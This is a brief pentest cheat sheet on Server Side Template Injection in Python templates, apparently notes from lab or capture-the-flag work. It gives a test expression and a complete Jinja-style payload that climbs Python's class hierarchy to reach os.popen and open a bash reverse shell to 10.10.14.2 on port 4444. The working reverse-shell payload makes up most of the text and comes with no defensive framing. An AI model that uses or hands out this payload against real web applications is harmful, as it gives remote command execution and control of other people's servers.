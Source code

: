 # Server Side Template Injection

## Python:

### test avec:
{{ 2+2 }}

### reverse shell:

{% for x in ().__class__.__base__.__subclasses__() %}{% if "warning" in x.__name__ %}{{x()._module.__builtins__['__import__']('os').popen("bash -c 'bash -i >& /dev/tcp/10.10.14.2/4444 0>&1'").read()}}{%endif%}{%endfor%}


